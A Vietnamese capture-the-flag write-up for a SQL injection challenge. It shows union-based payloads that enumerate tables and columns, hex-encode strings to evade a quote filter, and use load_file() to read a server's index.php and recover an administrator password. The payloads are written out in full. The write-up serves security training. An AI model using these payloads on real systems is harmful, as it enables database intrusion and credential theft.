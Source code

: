 # SQL-FileReading

Point: 40

Reading file with SQL!

Statement: Retrieve the administrator password.

# Overview:

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/233352300-2af89520-7cd2-4ffa-81a9-ebf0d9460150.png)

Goal của challenge này là phải có password của administrator.

# Solution

Đầu tiên mình thử fuzz ở mục member `id=1` bằng đấu `'` 

![image](https://user-images.githubusercontent.com/115911041/233359629-5b99159d-4c3c-435e-b995-7dbeb4102f69.png)

Như đã thấy ta có thể khai thác lỗ hổng này.Tiếp theo ta sử dụng Burp Suite để Intercept

Đầu tiên cần xác định số column. Sử dụng toán tử `AND`để câu logic phía trước sai và trả về kết quả của câu lệnh select phía sau.

`AND 1=0 union all select 1,2,3,4 --`

![image](https://user-images.githubusercontent.com/115911041/233360508-37e4ba58-eb8c-4252-9f80-587b1e3e934b.png)

Kết quả là cột 1,2,4 bị lỗi. Cột email thì có dạng string, 2 cột còn lại dạng số. Vậy thì mình chọn cột email để khai thác.Payload mình dùng lần này cũng khá giống challenge Routed.

`AND 1=0 union all select 1,2,3,(select group_concat(table_name) from information_schema.tables where table_schema=database())-- --`

![image](https://user-images.githubusercontent.com/115911041/233362366-e0c63fa3-c5f7-4509-9897-ec99df015d01.png)

Thấy kết quả trả về là 1 bảng member.Kế đó ta tiếp tục khai thác `column_name` từ bảng `member` nhưng vấn đề là bị filter đi dấu `'`, nên ta phải chuyển sang member dạng Hex

`And 1=0 union all select 1,2,3,(select group_concat(column_name) from information_schema.columns where table_name=0x6d656d626572)-- --`

![image](https://user-images.githubusercontent.com/115911041/233365320-e7e34155-4dc9-47d7-95d6-9e767bd09d0d.png)

Kết quả xuất hiện 4 columns, nhưng quan trọng ở đây là `memeber_login` và `member_password`.

`And 1=0 union all select 1,2,3,(select member_password from member)-- --`

![image](https://user-images.githubusercontent.com/115911041/233365720-2a7a00b6-234b-4403-a240-8985e341f312.png)

Kết quả ở email là dạng Base64, ta sẽ đem decode nó.Nhưng lại không cho kết quả.Sau một hồi tìm hiểu ở Docs mà challenge cung cấp, thì mình khám phả được là hàm `load_file()` được dùng để đọc file bên dưới hệ thống. VD `load_file('/web-serveur/ch31/index.php')`

Vậy để xử lí cái password thì ta cần phải tìm ra đường dẫn tới cái chỗ mà nó được xử lí thưởng là file `index.php`. Sau khi mày mò, thì bị từ chối hết, nhưng nếu các bạn đã làm nhưng bài LFI thì thường sử dụng một đưởng dẫn rất quen thuộc `/challenge/web-serveur/ch31/index.php`.Ta sẽ Hex đường dẫn đó

`And 1=0 union all select 1,2,3,load_file(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870)-- --`

![image](https://user-images.githubusercontent.com/115911041/233372552-7abc1be9-cc44-4829-b785-5c2e6ecd2121.png)

Kết quả là một nùi như vậy @@. Ta có một file index.php. Bỏ những phần râu ria đi ta chỉ cần quan tâm đến password

![image](https://user-images.githubusercontent.com/115911041/233373538-86b6d66e-8fd0-49dd-81f6-6f40934cff5b.png)

![image](https://user-images.githubusercontent.com/115911041/233373641-010e9d30-ee6b-4a6d-9c75-05b165870528.png)

![image](https://user-images.githubusercontent.com/115911041/233374185-a8516c9a-14c2-413b-832a-6be5ce78d5a1.png)

Có thể thấy lần lượt là password được xử lí bằng hàm sha1 và sau đó được mã hóa XOR. Và quan trọng nhất là ta có key

Bây giờ mình sẽ giả lập thử source code đã cho của challenge. 

![image](https://user-images.githubusercontent.com/115911041/233376272-7136f771-ed31-4605-b000-e3174414f539.png)

Sau đó đi mã hóa sha1
 `Flag: superpassword`






